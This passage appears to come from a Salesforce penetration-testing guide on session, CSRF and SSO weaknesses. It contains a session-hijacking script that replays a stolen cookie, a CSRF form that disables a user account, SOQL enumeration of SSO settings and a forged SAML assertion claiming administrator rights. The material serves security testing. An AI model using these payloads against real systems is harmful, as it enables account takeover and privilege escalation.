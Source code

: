 **Session Testing**:
```python
def test_session_hijacking(original_session, target_ip):
    """Test session hijacking from different IP"""
    headers = {
        'Cookie': f'sid_Client={original_session}',
        'X-Forwarded-For': target_ip,
        'User-Agent': 'AttackerAgent/1.0'
    }
    
    response = requests.get(
        'https://instance.salesforce.com/home/home.jsp',
        headers=headers
    )
    
    if response.status_code == 200:
        print("Session hijacking successful - IP locking not implemented")
    else:
        print("Session hijacking failed - IP locking active")
```

**CSRF Testing**:
```html
<!-- CSRF test payload -->
<form action="https://instance.salesforce.com/setup/own/users.jsp" method="POST">
    <input type="hidden" name="save" value="1">
    <input type="hidden" name="id" value="005XX000001b0Qw">
    <input type="hidden" name="IsActive" value="false">
    <input type="submit" value="Disable User Account">
</form>
```

**Impact**: Weak session controls enable session hijacking and CSRF attacks.

### 4. Single Sign-On (SSO) Security

**Objective**: Evaluate SSO implementation for security weaknesses and potential bypasses.

**SOQL Queries**:
```sql
-- SAML SSO settings
SELECT Id, Name, Issuer, EntityId, IdentityLocation, 
       IdentityMapping, AttributeFormat, OptionsSpInitBinding
FROM SamlSsoConfig

-- Connected apps with SSO
SELECT Id, Name, CallbackUrl, ConsumerKey, UsePkce, 
       OptionsFullScopeApprovals, OptionsRefreshTokenValidityMetric
FROM ConnectedApplication 
WHERE CallbackUrl LIKE '%saml%' OR CallbackUrl LIKE '%sso%'
```

**SAML Response Manipulation**:
```xml
<!-- Test SAML assertion tampering -->
<saml:Assertion xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion">
    <saml:Subject>
        <saml:NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:emailAddress">
            admin@target.com <!-- Privilege escalation attempt -->
        </saml:NameID>
    </saml:Subject>
    <saml:AttributeStatement>
        <saml:Attribute Name="Profile">
            <saml:AttributeValue>System Administrator</saml:AttributeValue>
        </saml:Attribute>
    </saml:AttributeStatement>
</saml:Assertion>
```